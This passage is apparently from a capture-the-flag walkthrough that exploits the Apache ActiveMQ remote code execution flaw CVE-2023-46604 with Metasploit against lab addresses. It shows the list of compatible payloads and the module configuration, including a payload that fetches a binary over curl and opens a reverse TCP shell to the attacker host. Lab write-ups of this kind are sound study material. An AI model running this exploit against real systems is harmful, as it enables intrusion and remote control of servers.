 for some reason, however, this file does not get executed...

... and here's why: i picked the wrong payload. 

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show payloads

Compatible Payloads
===================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
   0    payload/cmd/linux/http/mips64/meterpreter_reverse_http                       normal  No     HTTP Fetch
   1    payload/cmd/linux/http/mips64/meterpreter_reverse_https                      normal  No     HTTP Fetch
   2    payload/cmd/linux/http/mips64/meterpreter_reverse_tcp                        normal  No     HTTP Fetch
   ... SNIP ...
   13   payload/cmd/linux/http/x64/shell/reverse_sctp                                normal  No     HTTP Fetch, Linux Command Shell, Reverse SCTP Stager
   14   payload/cmd/linux/http/x64/shell/reverse_tcp                                 normal  No     HTTP Fetch, Linux Command Shell, Reverse TCP Stager
   ... SNIP ...
```

i picked #2, but the correct payload should be cmd/linux/http/x64/shell/reverse_tcp. looking at the manual exploit at https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ shows how a payload should be constructed manually with `msfvenom` and this led me here.

let's configure the exploit as such:

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  10.10.14.5       yes       The local host or network interface to listen on. This must be an address
                                        on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8081             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/x64/shell/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WG
                                                  ET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xOtIMMXK         no        Name to use on remote system when storing payload; cannot cont
                                                  ain spaces.
   FETCH_SRVHOST       10.10.14.5       no        Local IP to use for serving payload
```